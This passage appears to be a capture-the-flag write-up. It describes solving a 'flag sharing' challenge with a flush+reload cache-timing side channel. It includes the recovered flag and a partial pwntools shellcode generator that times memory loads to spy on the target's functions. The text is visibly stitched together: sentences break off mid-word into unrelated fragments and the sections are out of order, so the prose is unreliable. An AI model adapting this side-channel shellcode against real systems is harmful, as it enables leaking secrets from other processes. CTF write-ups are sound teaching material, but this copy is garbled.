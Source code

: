 ## Putting it all Together
Thus, in the end, we had three Python scripts.
* One which probes the flag, filters the probed data, and adds it to the saved data
* One which that probe uses to generate machine code to probe the flag
* And onmain/flag_sharing_filtered_results.png?raw=true)
* Note that each character in the flag is read in *big endian* order

Rather beautifully, despite these "double which take the saved probing data and analyze it to find the flag

First, the data is probed multiple times by the user (us!) for each of the three functions, until satisfactory amounts of data is read. Then, the data is analyzed and the flag is produced.

For the sake of completion (and our hard work), when all is said and done, our program outputted for us
```python
b'{y0u_h4v3_b33n_f1ag_5h4r1ng_th1s_ent1r3_t1me???}\n'
```
also known as the FLAG!ts," we can uniquely identify each


## Solve

Below is the code used to generate a machine code payload. It takes a `pwntools` `ELF` object as a parameter, and an offset `pVal` to determine the offset of the function to look at form the return address we grab. This function is used a few times to spy on each of the functions individually. Then, we compile that data to get a clear picture of the bot's actions. The code is commented to describe the purpose of each action, but for more information on any of these assembly functions or methods used, most of them are described above.

```python
from pwn import  *

def  final_payload(EXE, pVal): # print a "\ntime:\t" prefix
	context.binary = EXE
	# Initialize shellcode
	shellcode =  ""

	# Initialize counter
	shellcode += shellcraft.mov('rcx', 0x1e9999) # Set counter to big number
	
	# Begin loop
	shellcode +=  'loop_start:\n'

	# Preserve rcx
	shellcode +=  ' push rcx\n'

	# Grab the return address to base our loop on
	shellcode +=  ' mov rdi, [rsp + 8]\n'

	# Wait 100,000 cycles to flush+relaod again
	shellcode += shellcraft.mov('rcx', 100000)
	shellcode +=  'wait_loop:\n'
	shellcode +=  ' dec rcx\n'
	shellcode +=  ' test rcx, rcx\n'
	shellcode +=  ' jnz wait_loop\n'

	# Add the the parameter {pVal} to rdi, offsetting the address to look at
	# a specific one of the functions we're spying on
	shellcode += shellcraft.mov('rcx', pVal)
	shellcode +=  ' add rdi, rcx\n'

	# The segment of code which loads the memory address determined above and
	# tracks the time to do it
	shellcode +=  'start_probe:\n'
```